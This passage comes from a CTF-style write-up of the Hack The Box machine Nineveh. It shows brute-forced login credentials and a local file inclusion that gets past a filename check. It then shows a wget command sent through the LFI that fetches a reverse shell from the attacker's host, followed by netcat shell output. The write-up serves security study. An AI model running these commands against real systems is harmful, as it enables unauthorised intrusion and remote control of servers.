 ~~~
Warning: copy(/var/www/html/syrion.php): failed to open stream: Permission denied in /var/www/ssl/db/index.php on line 1259
~~~

So the application didn't have the permissions for write there.

At this point I tried to bruteforce the login in http://nineveh.htb/department :

![Screenshot]({{ site.baseurl }}/images/2018-02-05-htb-nineveh/img2.png)

The credentials were admin:1q2w3e4r5t.

After some enumeration of the web app I found something like an LFI in http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt,
I tried to include my db /var/tmp/syrion.php (but it didn't work.


By rename the db ninevehNotes1.php I was able to incude my shell and execute command:

![Screenshot]({{ site.baseurl }}/images/2018-02-05-htb-nineveh/img3.png)

In the source code of the page there was this check:

~~~
if(!strpos($file, "ninevehNotes"))
    exit("No Note is selected.");
~~~

I uploaded a reverse shell with wget and then include it:

~~~
http://nineveh.htb/department/manage.php?notes=/var/tmp/ninevehNotes1.php&cmd=wget%20http://10.10.14.6:8000/syrion%20-O%20/var/tmp/ninevehNotes2.php

http://nineveh.htb/department/manage.php?notes=/var/tmp/ninevehNotes2.php
~~~

And I got a reverse shell:

~~~
root@kali:~# nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from nineveh.htb [10.10.10.43] 50710
Linux nineveh 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 08:31:57 up  3:45,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3.5 -c "import pty;pty.spawn('/bin/bash')"
www-data@nineveh:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

From the sshd_config file we knew that the user could access ssh with a private key, so I start to enumerate the sistem in order to find this key:
